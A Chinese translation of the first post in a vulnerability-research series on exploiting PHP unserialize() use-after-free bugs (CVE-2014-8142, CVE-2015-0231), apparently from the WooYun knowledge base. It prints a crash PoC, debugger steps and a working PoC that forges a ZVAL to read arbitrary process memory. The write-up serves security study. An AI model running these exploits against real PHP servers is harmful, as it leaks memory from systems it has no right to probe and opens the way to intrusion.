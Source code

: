 # PHP 中的内存破坏漏洞利用（CVE-2014-8142 和 CVE-2015-0231）（连载之第一篇）

2015/02/10 10:14 | [Chuck](http://drops.wooyun.org/author/Chuck "由 Chuck 发布") | [二进制安全](http://drops.wooyun.org/category/binary "查看 二进制安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

作者：Cigital 公司的安全顾问 Qsl1pknotp

题目：Exploiting memory corruption bugs in PHP (CVE-2014-8142 and CVE-2015-0231) Part 1

地址：http://www.inulledmyself.com/2015/02/exploiting-memory-corruption-bugs-in.html

很多人都认为，对基于 Web 的应用程序来说，内存崩溃类 bug 不是什么严重问题。尤其现在 XSS 和 SQL 注入类漏洞仍然大行其事的情况下，不会有多少注意力投入到这类 bug 中，它们会被当做“不可利用”或者被直接无视。然而，假如攻击成功，利用这类漏洞进行攻击所导致的结果将远远超出 SQL 注入以及 XSS，因为：

```
1\. 攻击者将得到有保证的系统访问权。
2\. 将会很难识别恶意攻击数据流量。
3\. 需要维护者/供应商提供专门补丁，并且只能希望修补得没有问题。 
```

接下来笔者将发表三篇该系列攻击的文章，本文是其中的首篇。该系列将从 CVE-2014-8142 的利用开始讲起、然后是远程任意信息泄露、最后以获取 PHP 解释器的控制权结束。Stefan Esser（@i0n1c）是这两个 CVE 的原作者，并且是在 2010 年 Syscan 上第一个讲解如何控制 PHP 解释器（被称为“ret2php”）的。

## 0x01 漏洞起源

* * *

这一切都始于 2004 年，Esser 在 unserialize()函数中发现的一个 Use After Free 漏洞。这是一个 Hardened-PHP（译者注：如果项目中，服务器的安全性是最重要的，就可以称为是 Hardened-PHP）项目的一部分，没有任何代码公开。2010 年，Esser 又在 SPLObjectStorage 的 unserialize()中发现另一个 User After Free，这个漏洞直接产生了 Syscan 会上的一个发言，跟第一次漏洞一样，本次也没有代码公开。最后，CVE-2014-8142 被发现，又被打补丁，但是因为补丁没打好，又导致了 CVE-2015-0231。

幸运的是，这次 Stefan 终于给出了一个可令 PHP 解释器产生故障的 POC。下面的代码就会导致有此漏洞的 PHP 解释器出现问题。

```
<?php
for ($i=4; $i<100; $i++) {
  var_dump($i);

  $m = new StdClass(); 
  $u = array(1); 
  $m->aaa = array(1,2,&$u,4,5);

  $m->bbb = 1;
  $m->ccc = &$u;
  $m->ddd = str_repeat("A", $i); 
  $z = serialize($m);
  $z = str_replace("bbb", "aaa", $z);

  var_dump($z);

  $y = unserialize($z);

  var_dump($y);
}
?>

```

source: [StefanEsser_Original_POC](https://gist.github.com/tmm08a/d07bfcb4eca90a6d3926#file-stefanesser_original_poc)

## 0x02 漏洞分析利用

* * *

下面来解释下 POC 是如何工作的：我们通过重新添加“aaa”对象的值（不同值），来更新对象“aaa”，然而“ccc”对象其实还是指向原始“aaa”对象中的某一个值。

既然我们已经在顶层实现上知道了它的工作原理，接下来就让我们一起试着找到问题的罪魁祸首吧。我们在 process_nested_data 函数中寻找，快速浏览一下，会发现一段特定的代码：

![enter image description here](img/img1_u13_png.jpg)

让我们一起跟进脚本中来确定真正发生了什么。我们将断点断在 var_unserializer.c 的第 337 行来看一下（此处位于 process_nested_data 函数内）。

![enter image description here](img/img2_u21_png.jpg)

继续运行，跟过下面的代码：

```
<?php
$data ='O:8:"stdClass":3:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;s:39:"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;}';
$x = unserialize($data);
var_dump($x);
?>

```

source:[StefanEsser_Original_LocalMemLeak.php](https://gist.github.com/tmm08a/686d3f78a44c8ea80fd0#file-stefanesser_original_localmemleak-php)

运行上面的脚本，断点第一次命中时跳过，第二次命中时，执行下面的查看命令：

```
printzv *(var_entries)var_hash->first

```

![enter image description here](img/img3_u30_png.jpg)

可以看到地址的一个数组，这些地址指向 unserialize()函数解析的变量值。我们感兴趣的是第五个 0xb7bf87c0（我们上面 php 代码中用的是 R:5）。既然已经得到地址，我们就去看一下内容，然后步过该断点并继续运行。

![enter image description here](img/img4_u31_png.jpg)

已经调用完该可疑函数，接下来重新看一下刚才我们选定的地址中出现了什么内容：

![enter image description here](img/img5_u46_png.jpg)

成功搞定！当然，还需要确认下该地址是否还在 var_hash 表中，然后继续运行。

![enter image description here](img/img6_u26_png.jpg)

果然还在，继续：

![enter image description here](img/img7_u14_png.jpg)

Sweet！已经可以泄露前面地址中的数据了。我们现在已经可以成功泄露出之前所提供字串的长度，但这其实没什么意思。那么能不能泄露出任意内存数据呢？下面就是你想要的代码：

```
<?php

$fakezval = pack(
    'IIII',     //unsigned int
    0x08048000, //address to leak
    0x0000000f, //length of string
    0x00000000, //refcount
    0x00000006  //data type NULL=0,LONG=1,DOUBLE=2,BOOL=3,ARR=4,OBJ=5,STR=6,RES=7
);
//obj from original POC by @ion1c
$obj = 'O:8:"stdClass":4:{s:3:"aaa";a:5:{i:0;i:1;i:1;i:2;i:2;a:1:{i:0;i:1;}i:3;i:4;i:4;i:5;}s:3:"aaa";i:1;s:3:"ccc";R:5;s:3:"ddd";s:4:"AAAA";}';
$obj=unserialize($obj);

for($i = 0; $i < 5; $i++) { //this i value is larger than usually required
    $v[$i]=$fakezval.$i; //repeat to overwrite
}
//due to the reference being overwritten by our loop above, leak memory
echo $obj->ccc;
?>

```

source: [PHPLeak](https://gist.github.com/tmm08a/4c3130001a258e45d39f#file-phpleak)

下面是输出数据：

![enter image description here](img/img8_u57_png.jpg)

我们这里做的操作是非常简单的（希望是）。我们创建自己的 ZVAL（PHP 使用的内部数据结构）数据结构。我们定义了几个东西，使 pack（）函数获取我们的代码执行。按照顺序，它们是：

```
类型（例子中用的是 unsigned int）
地址（我们想要泄露的地址）
长度（我们想要泄露内存的长度）
参考标志（0）
数据类型（6，代表 String 类型） 
```

当然，如果我们没有伪造一个 string ZVAL 结构，这些值是会变化的。代码中的 for 循环是真正执行内存覆盖操作（覆盖之前释放掉的内存），这些操作使我们得到上述的输出数据。代码中我令循环数$i 的值大于其所需的值，只是用以确保代码的通用性，当然我测试过的大多数机器只需要 2 次就可以了，不需要执行 5 次。

好了，现在已经可以泄露随意地址数据了，让我们再一起看看 CVE-2015-0231？很简单：只需将“aaa”替换成“123”，看一下输出的数据：

![enter image description here](img/img9_u10_png.jpg)

## 0x03 下一步研究

* * *

通过上述过程，我们已经完成了一个可在本地泄露任意内存地址数据的 POC，且该 POC 同时适用于两个 CVE 漏洞的。我们下一步目标是仍然是数据泄露，所不同的是，将会是远程数据泄露！

敬请期待第二回，远程数据泄露！

版权声明：未经授权禁止转载 [Chuck](http://drops.wooyun.org/author/Chuck "由 Chuck 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [MS15-002 telnet 服务缓冲区溢出漏洞分析与 POC 构造](http://drops.wooyun.org/papers/4621)
*   [逆向基础（二）](http://drops.wooyun.org/tips/1931)
*   [CVE-2014-4113 漏洞利用过程分析](http://drops.wooyun.org/papers/3331)
*   [Easy RM to MP3 Converter(2.7.3.700)栈溢出漏洞调试笔记](http://drops.wooyun.org/papers/3178)
*   [关于 OpenSSL“心脏出血”漏洞的分析](http://drops.wooyun.org/papers/1381)
*   [Winrar4.x 的文件欺骗漏洞利用脚本](http://drops.wooyun.org/tips/1346)